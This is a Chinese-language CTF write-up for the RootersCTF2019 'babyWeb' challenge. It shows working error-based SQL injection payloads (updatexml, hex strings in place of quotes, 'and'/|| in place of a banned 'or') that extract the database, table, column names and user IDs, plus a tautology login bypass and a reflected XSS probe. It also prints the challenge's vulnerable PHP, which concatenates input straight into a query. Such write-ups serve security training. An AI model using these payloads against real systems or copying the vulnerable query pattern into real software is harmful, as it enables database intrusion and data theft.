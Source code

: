 # \[RootersCTF2019]babyWeb

## \[RootersCTF2019]babyWeb

## 考点

* 注入类型判断
* 报错注入
* 万能密码
* or绕过
* 单双引号绕过

## wp

给了提示

1. 密码是18位数字
2. 禁止输入字母和`UNION SLEEP ' " OR - BENCHMARK`

请求`search=1`返回语句`SELECT * FROM users WHERE uniqueid=1`

输入`0%23`返回`SELECT * FROM users WHERE uniqueid=0#`，应该是数字型注入

输入`1^1`返回的是`SELECT * FROM users WHERE uniqueid=1^1`，就很奇怪

那就试试`search=<script>alert(1)</script>`，结果弹框了，这里应该是服务端把GET请求的search原封不动的返回了



输入`<>`提示SQL语法错误，信息为`check the manual that corresponds to your MariaDB server version for the right syntax to use near '<>' at line 1`

直接试试`order by`呢，用大一点的数试试，输入`1 order by 5`，返回`Unknown column '5' in 'order clause'`

输入`1 order by 2`返回了正常信息，说明查询的列数是2

### 第一种解法：报错注入

这里可以下判断，是无回显的数字型注入，有报错信息，试试报错注入。

ban了`or`，可以使用`and`或者`||`；ban了单双引号，可以使用十六进制

```
search=1 and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23
sql_injection

search=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=0x73716C5F696E6A656374696F6E),0x7e),1)%23
users

search=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273),0x7e),1)%23
search=1 and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name=0x7573657273 limit 4,1),0x7e),1)%23
USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,user,uniqueid

search=1 and updatexml(1,concat(0x7e,(select count(uniqueid) from users),0x7e),1)%23
2

search=1 and updatexml(1,concat(0x7e,(select group_concat(uniqueid) from users),0x7e),1)%23
837461526918364526,123456789928466788
```

使用837461526918364526即可

### 第二种解法：万能密码

payload：`1 || 1=1 limit 0,1`，使用`1 || 1=1`会列出所有的id，需要用limit控制输出

### 核心代码

```
if(isset($_GET['search'])){
  $search = $_GET['search'];
  if(preg_match('/(union|sleep|\'|\"| or |-|benchmark)/i', $search)){
    exit();
  }
  else{
    $query = "SELECT * FROM users WHERE uniqueid=$search";
    $result=mysqli_query($link,$query) or die(mysqli_error($link));
    $count = mysqli_num_rows($result);
    if(mysqli_num_rows($result) === 1){
      while($row = mysqli_fetch_array($result)){
        $pass = $row['uniqueid'];
      }
      header("Location: https://babyweb.rootersctf.in/flag0flag0123456789.php?id=".$pass);
      die();
    }

    echo $query;
  }
}
```

## 小结

1. 类似题目，\[b01lers2020]Life on Mars是输入字符串但是是数字型注入，本题是输入数字回显原文的数字型注入
2. ban了`or`，可以使用`and`或者`||`
3. ban了单双引号，可以使用十六进制
